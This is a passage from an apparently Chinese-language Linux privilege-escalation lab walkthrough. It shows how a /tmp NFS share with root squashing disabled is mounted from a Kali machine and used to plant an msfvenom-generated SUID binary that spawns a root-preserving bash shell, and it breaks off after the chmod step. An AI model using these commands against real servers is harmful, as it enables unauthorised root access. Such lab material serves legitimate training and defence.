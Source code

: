 **在服务器上**

```
cat /etc/exports
```

![](img/421da6b01a045576110a7207be2dce12.png)

请注意， **/tmp** 共享禁用了根挤压。

在您的 Kali 机器上，如果您还没有以 root 用户身份运行，请切换到 root 用户:

```
sudo su
```

使用 Kali 的 root 用户，在您的 Kali 机器上创建一个挂载点，并挂载 **/tmp** 共享(相应地更新 IP):

```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

仍然使用 Kali 的 root 用户，使用 **msfvenom** 生成一个有效负载，并保存到挂载的共享中(这个有效负载简单地调用/bin/bash):

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

仍然使用 Kali 的根用户，使文件可执行，并设置 SUID 权限:

**工作站上的**

```
chmod +xs /tmp/nfs/shell.elf
```

